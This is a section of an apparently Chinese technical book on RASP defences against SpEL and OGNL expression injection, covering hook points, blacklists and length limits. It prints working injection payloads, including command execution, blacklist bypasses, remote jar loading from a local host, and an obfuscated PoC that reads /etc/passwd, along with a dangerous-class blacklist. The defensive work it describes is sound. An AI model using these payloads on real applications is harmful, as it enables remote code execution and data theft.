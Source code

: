 ## 10.4 Hook点与检测算法

一般的，我们只需要获取原始表达式，然后对原始的表达式做关键字符串匹配即可，如果存在指定的特征如命令执行的相关的类，可以简单判定该表达式是否为攻击。
这种检测算法很容易被特殊字符或者特殊语法绕过，如下例子：

```java
// 常规的写法：调用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 短名称写法： java.lang包下的类可以省去包名称，只保留类名称       
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
```
如果检测算法设定的黑名单为字符串`java.lang.Runtime`，而短名称的写法可以实现对黑名单的绕过。

仔细分析OGNL的高版本代码，存在如下代码对执行类的校验：

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_23-04-07.jpg)

如果被反射的方法来源于`Runtime`、`ClassLoader` 和 `ProcessBuilder`等，将会抛出异常阻断表达式的执行。

这给我们RASP的Hook点的选择一个很好的提示，Hook类的选择应该关注实际加载的类和执行的方法，而不仅仅是表达式本身。
下面将介绍SpEL和OGNL的Hook点的选择

### 10.4.1 Hook点的选择

+ SPEL表达式Hook点选择

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面对源码的分析，Hook该方法能够获取需要执行的原始表达式的值。
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-24_22-42-34.jpg)

从源码分析可以知道SPEL表达式的方法的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，Hook该方法能够获取需要加载的类。

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-27-26.jpg)

第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下，Hook该方法能够获取被反射的类和方法。

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-31-24.jpg)

+ OGNL表达式Hook点选择

选择Hook `ognl.Ognl`类的parseExpression方法来获取原始表达式的值，该方法的源码如下：
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-45-38.jpg)


从源码分析可以知道`ognl.OgnlRuntime`类的invokeMethod负责方法调用，其源码如下：
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-49-19.jpg)


而`ognl.OgnlRuntime`类的callConstructor方法则负责调用构造器方法，其源码如下：

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-50-28.jpg)


### 10.4.2 表达式注入与检测算法

由于OGNL与SpEL表达式除了Hook点不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 具备攻击能力的SpEL表达式举例

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

通过检测表达式执行过程中加载的类和反射调用的方法，比较容易的识别表达式执行是否存在攻击。
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// ...
```


### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SpEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
